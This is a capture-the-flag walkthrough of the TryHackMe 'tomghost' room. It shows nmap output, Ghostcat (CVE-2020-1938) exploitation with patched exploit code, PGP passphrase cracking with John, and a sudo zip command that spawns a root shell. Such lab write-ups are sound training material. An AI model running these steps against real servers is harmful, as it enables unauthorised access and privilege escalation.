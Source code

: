 ```bash
# PLATFORM          . THM
# CTF NAME          . tomghost
# DESCRIPTION       . Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/tomghost
```

```bash
sudo nmap -sSVC -T5 10.10.129.164 -p- -oN tomghost
```

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3c89f0b6ac5fe95540be9e3ba93db7c (RSA)
|   256 dd1a09f59963a3430d2d90d8e3e11fb9 (ECDSA)
|_  256 48d1301b386cc653ea3081805d0cf105 (ED25519)

53/tcp   open  tcpwrapped

8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS

8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- The webserver is running the default installation on Apache Tomcat 9.0.30 and it seems that we don't have access to `/manager` page.

```
By default the Manager is only accessible from a browser running on the same machine as Tomcat. If you wish to modify this restriction, you'll need to edit the Manager's context.xml file. 
```

- I had no idea what AJP is, and after a bit of research, here's what I found.

- AJP is a protocol that allows a standalone webserver (eg: apache) talk to Tomcat. 
  
- This communication, by default, is done on port 8009, which we see it is already open on our target. 

- Tomcat 9.0.30 (what we have installed) can be vulnerable to what's called `Ghostcat` - LFI vulnerability, somewhat restricted, that allows files from a certain path to be pulled. 

- Depending on the server setup, this might be enough to leak credentials or other sensitive information. 

- And here's the exploit: [CVE-2020-1938](https://nvd.nist.gov/vuln/detail/CVE-2020-1938)

- This worked out of the box, except with few code modifications. I had to replace

```python
self.stream = self.socket.makefile("rb", bufsize=0)

with

self.stream = self.socket.makefile("rb")

and 

print("".join([d.data for d in data]))

with 

print("".join([d.data.decode('utf-8') for d in data if d.data]))
```

- After this, I ran the script as `python3 exploit.py IP`

```
Getting resource at ajp13://10.10.129.164:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:{redacted}
  </description>

</web-app>
```

- We got our credentials :) SSH in to the box.

```
Sorry, user skyfuck may not run sudo on ubuntu.
```

```
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

- All we had to do is to import the key and decrypt the `.pgp` file.

```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp 
```

- But...

```
You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
```

- We need to call Mr. John for some expertise here, so let's copy the files to our local machine. I've used `scp` from my host

```
scp skyfuck@10.10.129.164:/home/skyfuck/credential.pgp credential.pgp
scp skyfuck@10.10.129.164:/home/skyfuck/tryhackme.asc tryhackme.asc
```

- Then, I've used `/opt/john/run/gpg2john tryhackme.asc > crack`

- And then `/opt/john/run/john crack` ; Passphase is `alexandru`.

- Back to our compromised box, running `pgp --decrypt credential.pgp` reveals the credentials for user `merlin`

```
merlin:{redacted}
```

- Merlin is able to run `/usr/bin/zip` as root.

```
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

- This can be used to spawn a root shell. 

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

- The last flag is in `/root/root.txt`
